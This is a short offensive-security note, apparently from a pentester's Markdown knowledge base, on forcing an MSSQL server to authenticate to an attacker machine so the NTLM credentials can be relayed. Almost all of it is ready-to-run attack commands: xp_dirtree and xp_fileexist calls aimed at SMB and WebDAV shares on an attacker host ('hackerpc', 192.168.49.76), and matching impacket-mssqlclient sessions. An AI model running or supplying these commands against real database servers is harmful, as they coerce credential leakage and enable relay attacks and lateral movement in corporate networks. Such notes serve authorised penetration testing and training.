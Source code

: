 ```yaml
---
title: NTLM Relay from MSSQL
---
```


[[notes/ad/ntlm-relay-source]] with guest access to a [[notes/ad/mssql]] server.

[[notes/ad/ntlm-relay-from-smb|Coerce authentication from SMB]].

=== "raw"
    ~~~ sql
    EXEC sys.xp_dirtree '\\hackerpc.corp.local\test'
    EXEC sys.xp_fileexist '\\hackerpc.corp.local\test'
    ~~~

    If the `sys.` prefix does not work try `master.dbo.` or `master..` instead.

=== "[[notes/tools/impacket]]"
    ~~~
    ❯ impacket-mssqlclient -windows-auth -k -no-pass db01.corp.local
    SQL (CORP\jdoe  guest@msdb)> xp_dirtree \\192.168.49.76\test
    ~~~

In the unlikely case that the WebClient is running on the database server [[notes/ad/ntlm-relay-from-webdav|coerce authentication from WebDAV]].

=== "raw"
    ~~~ sql
    EXEC sys.xp_dirtree '\\hackerpc@8080\test'
    EXEC sys.xp_fileexist '\\hackerpc@8080\test'
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~
    ❯ impacket-mssqlclient -windows-auth -k -no-pass db01.corp.local
    SQL (CORP\jdoe  guest@msdb)> xp_dirtree \\hackerpc@8080\test
    ~~~
